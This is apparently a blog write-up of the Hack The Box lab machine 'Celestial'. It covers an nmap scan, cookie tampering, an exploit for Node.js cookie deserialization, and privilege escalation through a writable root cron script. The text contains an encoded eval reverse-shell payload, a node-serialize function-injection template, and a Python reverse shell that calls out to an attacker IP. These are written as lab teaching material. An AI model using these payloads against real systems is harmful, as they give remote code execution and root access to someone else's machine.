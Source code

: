 +++
date = '2025-04-11T10:54:25-05:00'
draft = false
title = 'HtB Celestial'
tags = ['writeup', 'hackthebox', 'medium', 'linux']
hideToc = false
+++
![HtB-Celestial](/images/Celestial.png)

Celestial is a medium difficulty machine which focuses on deserialization exploits. It is not the most realistic, however it provides a practical example of abusing client-size serialized objects in NodeJS framework.

<!--more-->
---

## Scanning

### nmap

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nmap -T4 -p- -A 10.129.228.94
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn\'t have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
```

### HTTP - 3000/tcp

![celestial1](/images/celestial1.png)

Can't fuzz much on the website, but a look at the headers reveals a cookie is set.

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ curl http://10.129.228.94:3000/ -i
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 03 Mar 2025 02:24:57 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Mon, 03 Mar 2025 02:09:57 GMT
Connection: keep-alive
```

Cookie Value: `{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`

## Initial Access

### SSTI

Messing with the cookie values, it appears as if when we change the `num` value to `1`, the website changes and says: "Hey Dummy 1 + 1 is 11". The website is taking cookie values and generating dynamic content. Maybe we can do an injection of some sort here.

After playing with a few payloads, I see an actual computation on an SSTI payload:
`{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"{{7*7}}"}`

![celestial2](/images/celestial2.png)

### Deserialization

I wasn't getting anywhere with the SSTI approach, so continued my research into NodeJS and the Express framework. During my research, I came across an interesting [deserialization attack](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) that might be applicable here.

Download your [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and generate your reverse shell script:

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ python2.7 nodejsshell.py 10.10.14.142 4444
[+] LHOST = 10.10.14.142
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,50,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

Now generate your serialized payload, base64 encode it, and replace the cookie value.

```json
{"rce":"_$$ND_FUNC$$_ function (){<<Paste Encoding>>}()"}
```

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nc -nvlp 4444                   
listening on [any] 4444 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.228.94] 50644
Connected!
whoami
sun
```

Grab the `user.txt` and let's move on.

## Privilege Escalation

### linpeas.sh

Easy, probably unintended routes:
```sh
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                               
[+] [CVE-2017-16995] eBPF_verifier
[+] [CVE-2016-8655] chocobo_root
[+] [CVE-2016-5195] dirtycow
[+] [CVE-2016-5195] dirtycow 2
[+] [CVE-2021-4034] PwnKit
[+] [CVE-2021-3156] sudo Baron Samedit 2
[+] [CVE-2017-7308] af_packet
[+] [CVE-2017-6074] dccp
[+] [CVE-2017-1000112] NETIF_F_UFO
[+] [CVE-2016-4557] double-fdput()
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
[+] [CVE-2022-2586] nft_object UAF
[+] [CVE-2021-3156] sudo Baron Samedit
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
[+] [CVE-2019-18634] sudo pwfeedback
[+] [CVE-2019-15666] XFRM_UAF
[+] [CVE-2018-1000001] RationalLove
[+] [CVE-2017-1000366,CVE-2017-1000379] linux_ldso_hwcap_64
[+] [CVE-2017-1000253] PIE_stack_corruption
[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE
[+] [CVE-2016-2384] usb-midi
[+] [CVE-2016-0728] keyring
```

### Cron Job

Notice that the file `/home/sun/output.txt` is very recently updated, and seems to be updated every ~5 minutes or so.  Further enumeration yields a python script at `/home/sun/Documents/script.py` that, based on the code, is likely generating that output file. Oh, by the way, the `output.txt` is owned by `root`. I wonder if it's a cron job?

We have write permissions for `script.py`, so let's replace it with a nice reverse shell and setup a listener to see what happens.

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.142",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

I transferred this over via HTTP to replace `script.py`.

```sh
┌──(pl4stic㉿kali)-[~/htb/celestial]
└─$ nc -nvlp 5555                      
listening on [any] 5555 ...
connect to [10.10.14.142] from (UNKNOWN) [10.129.228.94] 46914
# whoami
whoami
root
```

Now grab `root.txt`